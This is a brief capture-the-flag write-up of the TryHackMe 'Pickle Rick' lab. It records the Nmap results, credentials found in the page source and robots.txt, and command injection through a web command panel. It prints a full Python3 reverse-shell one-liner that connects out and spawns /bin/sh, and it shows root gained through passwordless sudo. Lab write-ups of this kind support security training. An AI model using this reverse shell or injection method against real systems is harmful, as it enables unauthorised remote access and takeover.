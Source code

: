                                        #######################
                                        ####      Web      ####
                                        #######################
                                        #####  TryHackMe  #####
                                        ##### Pickle Rick #####
                                        #####  By 0xRar   #####
                                        #######################


## Nmap result :
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a1:4e:a3:4e:5c:f2:0f:6e:8d:2e:a8:0c:3c:9f:d4:ee (RSA)
|   256 95:91:a8:d8:ab:e4:0e:a4:8d:b8:43:27:01:58:b2:c2 (ECDSA)
|_  256 b6:f3:eb:2d:f1:c2:bc:b3:6b:c8:da:50:49:ac:27:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Portal  Creds :
```
Got the username from the source code
Username: R1ckRul3s

Got the password from robots.txt
Password: Wubbalubbadubdub
```
## Portal (LOGIN)
```
Used gobuster dir to get the login
MACHINE_IP/portal.php
```

## How did i get in ?
```
The portal page or the command panel was infected with command injection so
i tried to get a rev shell with nc but didint work so i tried python2 didint work
so i tried python3 and it worked, i uploaded linpeas for more information and found out that all users has ((NOPASSWD))
i got root using the command (sudo bash).  
```
## python3 reverse shell :
`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`

## root :
`
sudo bash
`
